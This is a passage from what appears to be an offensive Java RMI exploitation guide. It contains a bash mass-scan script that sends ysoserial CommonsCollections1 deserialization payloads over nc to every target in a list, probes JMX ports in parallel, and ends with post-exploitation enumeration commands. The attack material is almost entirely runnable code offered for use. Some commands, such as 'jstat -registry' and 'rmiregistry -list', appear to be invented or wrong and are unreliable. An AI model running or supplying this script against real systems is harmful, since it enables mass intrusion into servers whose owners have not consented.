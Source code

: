 ```bash
    echo "Testing deserialization on $target:$port"
    java -jar ysoserial.jar CommonsCollections1 "echo test" | timeout 5 nc $target $port
    
    # Check for JMX exposure
    if [ $port -eq 1617 ] || [ $port -eq 8686 ]; then
        echo "Testing JMX on $target:$port"
        java -cp . JMXChecker $target $port
    fi
}

export -f scan_rmi check_vulnerabilities
echo "Starting RMI mass scan..."

# Read targets and scan
while read -r target; do
    for port in 1099 1617 8686 1098 1100 11099; do
        echo $target $port
    done
done < $TARGETS | xargs -P $THREADS -n 2 bash -c 'scan_rmi "$@"' _

echo "Scan completed. Results in $OUTPUT"
```

---

## ✅ Post-Exploitation Activities

### Initial Assessment
```bash
# Java environment information
java -version
echo $JAVA_HOME
ls -la $JAVA_HOME

# Running Java processes
jps -l
ps aux | grep java

# JVM information
jinfo <pid>
jstat -gc <pid>
```

### RMI Service Analysis
```bash
# Current RMI registries
jstat -registry

# Active RMI connections
netstat -an | grep 1099
netstat -an | grep 1617
netstat -an | grep 8686

# RMI registry contents
rmiregistry -list
```
